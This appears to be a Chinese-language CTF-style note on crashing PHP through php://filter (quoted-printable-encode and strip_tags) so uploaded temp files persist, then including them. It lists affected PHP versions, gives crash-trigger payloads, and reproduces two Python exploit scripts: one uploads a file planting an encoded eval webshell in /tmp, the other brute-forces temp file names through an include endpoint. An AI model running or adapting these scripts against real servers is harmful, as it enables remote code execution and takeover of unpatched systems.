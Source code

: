 
## Segmentation fault
参考文章
- https://hackmd.io/s/Hk-2nUb3Q
- https://www.jianshu.com/p/dfd049924258


### 关于下面的版本问题
参考：
- https://bugs.php.net/bug.php?id=77359  
  
通过在PHP的changelog页面    
- https://www.php.net/ChangeLog-7.php
- https://www.php.net/ChangeLog-5.php
搜寻77359我们可以发现php在php5和7.0-7.3的版本中都进行了修复。所以printable的利用版本如下：  
- php5<5.6.39
- php7.0<7.0.33
- php7.1<7.1.25
- php7.2<7.2.13
- php7.3不可利用
  
trip_tags的利用环境在php7.0环境下都可以利用，其他版本未知。

### 超大字符
参考上面的文章可知下列语句可以触发fault，但是我在当时比赛过后测试也就是2018年测试(php7.2.10)的时候是可以的，但是我在19年5.14日测试发现php5.6，php(7.0.33,7.1.29,7.2.18,7.3,5)都不可以了。可能时修复了，但是如果安装了旧版本没有升级(小本版号码)的话，应该还是纯在的吧？

```php
file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA'));
```

### trip_tags

同上，但是此时测试在版本PHP7.0.33成功复现
```
<?php
include("php://filter/string.strip_tags/resource=/etc/passwd");
?>

```


作者写的利用脚本
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import string
import itertools

charset = string.digits + string.letters

host = "192.168.43.155"
port = 80
base_url = "http://%s:%d" % (host, port)


def upload_file_to_include(url, file_content):
    files = {'file': ('evil.jpg', file_content, 'image/jpeg')}
    try:
        response = requests.post(url, files=files)
    except Exception as e:
        print e


def generate_tmp_files():
    webshell_content = '<?php eval($_REQUEST[c]);?>'.encode(
        "base64").strip().encode("base64").strip().encode("base64").strip()
    file_content = '<?php if(file_put_contents("/tmp/ssh_session_HD89q2", base64_decode("%s"))){echo "flag";}?>' % (
        webshell_content)
    phpinfo_url = "%s/include.php?f=php://filter/string.strip_tags/resource=/etc/passwd" % (
        base_url)
    length = 6
    times = len(charset) ** (length / 2)
    for i in xrange(times):
        print "[+] %d / %d" % (i, times)
        upload_file_to_include(phpinfo_url, file_content)


def main():
    generate_tmp_files()


if __name__ == "__main__":
    main()
```
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import string

charset = string.digits + string.letters

host = "192.168.43.155"
port = 80
base_url = "http://%s:%d" % (host, port)


def brute_force_tmp_files():
    for i in charset:
        for j in charset:
            for k in charset:
                for l in charset:
                    for m in charset:
                        for n in charset:
                            filename = i + j + k + l + m + n
                            url = "%s/include.php?f=/tmp/php%s" % (
                                base_url, filename)
                            print url
                            try:
                                response = requests.get(url)
                                if 'flag' in response.content:
                                    print "[+] Include success!"
                                    return True
                            except Exception as e:
                                print e
    return False


def main():
    brute_force_tmp_files()


if __name__ == "__main__":
    main()
```